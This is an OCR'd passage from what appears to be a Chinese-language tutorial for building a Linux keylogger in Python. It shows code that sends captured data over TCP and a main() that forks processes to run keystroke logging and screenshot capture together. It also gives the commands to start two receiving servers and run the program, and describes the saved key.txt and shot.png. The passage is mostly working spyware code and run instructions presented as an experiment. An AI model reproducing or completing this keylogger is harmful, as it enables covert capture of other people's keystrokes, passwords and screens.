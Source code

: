 ```
    def send_stop_message(self):
        # 发送结束标志
        # 建立一个任务，然后发送相应的内容,告诉数据已经发送完毕
        content = "\r\nover\r\n"
        task = BasicNetworkTask(self.server_instance, content)
        task.run()
        # 记得释放这个tcp的链接
        self.server_instance.destroy()
```
## 2.6 运行程序

上述我们实现了键盘记录、截图功能、数据发送功能。根据4.2，在这里讲述下Python的多进程编程，将上述功能组合在一起实现并发运行。 Python下

的多进程编程常用的库是muptiprocessing,multiprocessing库提供了非常强大的功能，支持子进程、通讯和共享数据。 但因本程序限制在linux环境下，

所以使用更为轻量的os.fork来创建多进程程序。
```
def main(key_name, pic_name, key_type='txt', pic_type='png'):
    """
       因为捕捉键盘记录 和屏幕截图 是两个独立的任务，
       所以在这里fork产生一个新的进程来执行屏幕截图
    """
    f = os.fork()
    if f == 0:
        # 这里是子进程, 会调用外部程序
        screen_shot(pic_name, pic_type)
    else:
        # 父进程
        keylogger_func(key_name, key_type)
```
接下来我们运行一下程序看一下实验效果。

* 开启键盘数据的服务
** python server.py -p 8888
* 开启接收图片数据的服务
** python server -p 8889
* 运行我们的主程序
** python main.py
在程序运行期间，你可以在键盘上任意输入就可以进行记录了。运行效果如下,其中shot.png是服务器保存下来的屏幕截图，key.txt是键盘记录的数据。
